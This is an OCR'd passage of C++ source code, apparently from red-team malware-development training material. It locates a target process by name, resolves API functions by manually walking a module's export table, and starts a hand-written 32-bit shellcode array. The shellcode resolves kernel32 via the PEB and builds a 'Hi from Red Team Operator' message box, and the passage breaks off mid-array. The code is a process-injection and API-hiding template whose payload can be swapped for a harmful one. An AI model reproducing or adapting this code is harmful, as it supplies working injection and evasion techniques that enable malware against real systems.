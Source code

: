 ```cpp
        if (hProcess) {
            WCHAR processNameBuffer[MAX_PATH];
            if (GetModuleFileNameEx(hProcess, NULL, processNameBuffer, MAX_PATH)) {
                std::wstring currentProcessName(processNameBuffer);
                if (currentProcessName.find(processName) != std::wstring::npos) {
                    CloseHandle(hProcess);
                    return processIds[i];
                }
            }
            CloseHandle(hProcess);
        }
    }

    std::cerr << "Process not found." << std::endl;
    return 0;
}

PVOID GetProcAddressKernel32(HMODULE hModule, LPCSTR lpProcName) {
    PIMAGE_DOS_HEADER pDOSHeader = (PIMAGE_DOS_HEADER)hModule;
    PIMAGE_NT_HEADERS pNTHeaders = (PIMAGE_NT_HEADERS)((BYTE*)hModule + pDOSHeader->e_lfanew);
    PIMAGE_EXPORT_DIRECTORY pExportDirectory = (PIMAGE_EXPORT_DIRECTORY)((BYTE*)hModule + pNTHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);

    DWORD* pAddressOfFunctions = (DWORD*)((BYTE*)hModule + pExportDirectory->AddressOfFunctions);
    DWORD* pAddressOfNames = (DWORD*)((BYTE*)hModule + pExportDirectory->AddressOfNames);
    WORD* pAddressOfNameOrdinals = (WORD*)((BYTE*)hModule + pExportDirectory->AddressOfNameOrdinals);

    for (DWORD i = 0; i < pExportDirectory->NumberOfNames; i++) {
        char* functionName = (char*)((BYTE*)hModule + pAddressOfNames[i]);
        if (strcmp(functionName, lpProcName) == 0) {
            return (PVOID)((BYTE*)hModule + pAddressOfFunctions[pAddressOfNameOrdinals[i]]);
        }
    }
    return NULL;
}

int main() {

    // code - 32 bit Hi RedTeam Operator
    unsigned char code[] = { 0xd9, 0xeb, 0x9b, 0xd9, 0x74, 0x24, 0xf4, 0x31, 0xd2, 0xb2, 0x77, 0x31,
  0xc9, 0x64, 0x8b, 0x71, 0x30, 0x8b, 0x76, 0x0c, 0x8b, 0x76, 0x1c, 0x8b,
  0x46, 0x08, 0x8b, 0x7e, 0x20, 0x8b, 0x36, 0x38, 0x4f, 0x18, 0x75, 0xf3,
  0x59, 0x01, 0xd1, 0xff, 0xe1, 0x60, 0x8b, 0x6c, 0x24, 0x24, 0x8b, 0x45,
  0x3c, 0x8b, 0x54, 0x28, 0x78, 0x01, 0xea, 0x8b, 0x4a, 0x18, 0x8b, 0x5a,
  0x20, 0x01, 0xeb, 0xe3, 0x34, 0x49, 0x8b, 0x34, 0x8b, 0x01, 0xee, 0x31,
  0xff, 0x31, 0xc0, 0xfc, 0xac, 0x84, 0xc0, 0x74, 0x07, 0xc1, 0xcf, 0x0d,
  0x01, 0xc7, 0xeb, 0xf4, 0x3b, 0x7c, 0x24, 0x28, 0x75, 0xe1, 0x8b, 0x5a,
  0x24, 0x01, 0xeb, 0x66, 0x8b, 0x0c, 0x4b, 0x8b, 0x5a, 0x1c, 0x01, 0xeb,
  0x8b, 0x04, 0x8b, 0x01, 0xe8, 0x89, 0x44, 0x24, 0x1c, 0x61, 0xc3, 0xb2,
  0x08, 0x29, 0xd4, 0x89, 0xe5, 0x89, 0xc2, 0x68, 0x8e, 0x4e, 0x0e, 0xec,
  0x52, 0xe8, 0x9f, 0xff, 0xff, 0xff, 0x89, 0x45, 0x04, 0xbb, 0xef, 0xce,
  0xe0, 0x60, 0x87, 0x1c, 0x24, 0x52, 0xe8, 0x8e, 0xff, 0xff, 0xff, 0x89,
  0x45, 0x08, 0x68, 0x6c, 0x6c, 0x20, 0x41, 0x68, 0x33, 0x32, 0x2e, 0x64,
  0x68, 0x75, 0x73, 0x65, 0x72, 0x30, 0xdb, 0x88, 0x5c, 0x24, 0x0a, 0x89,
  0xe6, 0x56, 0xff, 0x55, 0x04, 0x89, 0xc2, 0x50, 0xbb, 0xa8, 0xa2, 0x4d,
  0xbc, 0x87, 0x1c, 0x24, 0x52, 0xe8, 0x5f, 0xff, 0xff, 0xff, 0x68, 0x44,
  0x65, 0x76, 0x58, 0x68, 0x20, 0x4d, 0x61, 0x6c, 0x68, 0x52, 0x54, 0x4f,
  0x3a, 0x31, 0xdb, 0x88, 0x5c, 0x24, 0x0b, 0x89, 0xe3, 0x68, 0x72, 0x21,
  0x58, 0x20, 0x68, 0x72, 0x61, 0x74, 0x6f, 0x68, 0x20, 0x4f, 0x70, 0x65,
  0x68, 0x54, 0x65, 0x61, 0x6d, 0x68, 0x52, 0x65, 0x64, 0x20, 0x68, 0x72,
  0x6f, 0x6d, 0x20, 0x68, 0x48, 0x69, 0x20, 0x66, 0x31, 0xc9, 0x88, 0x4c,
```